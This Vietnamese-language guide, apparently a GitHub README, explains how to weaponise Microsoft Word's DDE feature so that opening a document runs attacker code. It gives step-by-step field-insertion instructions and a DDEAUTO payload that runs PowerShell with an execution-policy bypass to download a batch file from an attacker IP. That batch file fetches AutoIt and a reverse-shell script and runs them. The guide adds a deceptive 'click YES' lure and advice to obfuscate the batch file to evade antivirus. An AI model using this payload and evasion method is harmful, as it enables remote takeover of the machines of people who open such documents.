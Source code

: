 # Lạm dụng TÍNH NĂNG hợp pháp của Microsoft Word để thực thi mã độc bất hợp pháp
> Mô tả: Lạm dụng tính năng DDE - Dynamic Data Exchange của Office, cho phép ứng dụng Office tải dữ liệu từ các ứng dụng Office khác. Từ đó, thay vì chèn dữ liệu hợp pháp thì chèn dữ liệu độc hại. ***Ví dụ: file Word có thể cập nhật dữ liệu table bằng cách kéo dữ liệu từ tệp Excel mỗi khi tệp Word được mở.***

Như vậy, DDE có khả năng cho phép file Word mỗi khi được mở, có thể thực thi đoạn mã đang được lưu trữ trong một file khác và cho phép các ứng dụng đó có thể gửi bản cập nhật dữ liệu mới.

Dữ liệu độc hại được thực thi ở đây là 1 câu lệnh sẽ được hiện trên máy victim. Câu lệnh này sẽ tải 1 tập lệnh Batch được host trên máy attack về, và tự động thực thi trên máy victim. Tập lệnh Batch có chức năng giúp attacker tạo 1 reverse shell từ máy victim. Tập lệnh Batch sẽ được mã hóa để bypass hoàn toàn Windows Defender.

Lưu ý: DDE hoàn toàn là 1 TÍNH NĂNG, không phải là lỗ hổng. 

## Thực thi

1. Mở file Word lên, vào Insert -> Quick Parts -> Field…
2. Sẽ có 1 bảng hiện ra, tiến hành click double vào ” = (Formula ) ”
3. 1 dòng chữ sẽ hiện ra, chuột phải vào, chọn “Toggle Field Codes”
4. Thay đổi nội dung như sau: 
```console
{DDEAUTO "C:\\windows\\system32\\cmd.exe /k powershell -NoP -NonI -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadFile('http://192.168.2.39:1113/RVSo.bat', 'RVSo.bat');start 'RVSo.bat' # " "for security reasons click YES"}
```
### Nội dung của file RVSo.bat
```bat
@echo

cd %temp%

curl http://192.168.2.39:1113/autoit/AutoIt3.exe > autoit.exe

curl http://192.168.2.39:1113/autoit/RVS.a3x > reverseShell.a3x
autoit.exe reverseShell.a3x
```
Dùng tool [này](https://github.com/thotrangyeuduoi/toolWin/blob/master/obfuscator.cmd) để mã hóa file RVS.bat nhằm bypass AntiVirus
```cmd
C:\User\Document\obfucator.cmd RVS.bat
```
### File liên quan

[ReverseShell.au3](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ReverseShell_by_Autoit.au3)

Ref: https://anonyviet.com/cach-hacker-bypass-av-xam-nhap-windows-voi-autoit/

https://anonyviet.com/phuong-phap-phat-tan-virus-bang-file-word/